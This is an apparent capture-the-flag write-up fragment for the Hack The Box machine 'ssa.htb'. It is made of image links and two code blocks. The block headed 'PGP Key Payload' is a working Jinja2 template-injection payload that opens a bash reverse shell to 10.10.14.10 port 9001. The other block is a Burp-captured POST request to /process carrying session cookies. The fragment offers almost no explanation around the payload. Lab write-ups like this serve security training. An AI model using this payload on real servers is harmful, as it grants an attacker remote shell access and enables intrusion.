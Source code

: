 ![c8aeda58da14e83055e08b128f5ced89.png](/assets/img/c8aeda58da14e83055e08b128f5ced89.png)

## PGP Key Payload

![fe0ece47ba431623860993c360a0877e.png](/assets/img/fe0ece47ba431623860993c360a0877e.png)

```
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('bash -c "bash -i >& /dev/tcp/10.10.14.10/9001 0>&1"').read() }}
```

## Burp Request

```
POST /process HTTP/1.1
Host: ssa.htb
Cookie: remember_token=2|01f77b08cee823a53c763ad3369a8238722666b02b60f2339fcf5ad0f09acc10ec12021789b8bbb761e2967f294dc3ff39ad9ba858a11f6fbe7073a2c4cc9b83; session=eyJfZnJlc2giOmZhbHNlLCJfdXNlcl9pZCI6IjIifQ.ZI9avg.6k9o7nVwG6f2LaAQEo62qKBoyUo
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:102.0) Gecko/20100101 Firefox/102.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://ssa.htb/guide
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 1247
Origin: https://ssa.htb
Dnt: 1
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
```